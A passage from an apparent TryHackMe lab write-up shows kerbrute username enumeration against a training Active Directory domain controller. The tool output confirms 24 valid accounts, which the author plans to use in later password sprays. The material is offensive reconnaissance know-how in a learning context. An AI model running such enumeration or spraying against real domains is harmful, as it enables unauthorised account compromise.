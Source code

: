 Tools like **enum4linux-ng** or **rpcclient** may return _some_ usernames, but they could be:

- Disabled accounts
- Non-domain accounts
- Fake honeypot users
- Or even false positives

Running those through **kerbrute** lets us confirm which ones are real, active AD users, which allows us to target them more accurately with password sprays.

We can create a user list thanks to the usernames we gathered with the previous tools :

```bash
┌──(hax㉿HaxonKali)-[~/THM/LEARN/Windows/AD]
└─$ ./kerbrute userenum --dc 10.211.11.10 -d tryhackme.loc users    
   __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/25/25 - Ronnie Flathers @ropnop

2025/07/25 15:52:37 >  Using KDC(s):
2025/07/25 15:52:37 >   10.211.11.10:88

2025/07/25 15:52:37 >  [+] VALID USERNAME:       gerald.burgess@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       nigel.parsons@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       jeremy.booth@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       kathryn.williams@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       barbara.jones@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       marion.kay@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       gary.clarke@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       danny.baker@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       daniel.turner@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       debra.yates@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       martin.riley@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       danielle.lee@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       danielle.ali@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       douglas.roberts@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       jeffrey.thompson@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       strate905@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       empanadal0v3r@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       strategos@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       jennifer.harding@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       drgonz0@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       krbtgtsvc@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       rduke@tryhackme.loc
2025/07/25 15:52:37 >  [+] VALID USERNAME:       asrepuser1@tryhackme.loc
2025/07/25 15:52:38 >  [+] VALID USERNAME:       user@tryhackme.loc
2025/07/25 15:52:38 >  Done! Tested 31 usernames (24 valid) in 1.021 seconds           
```

As we can see in the output above, 24 out of the 31 users from our list are valid. We can use this information to update our user list
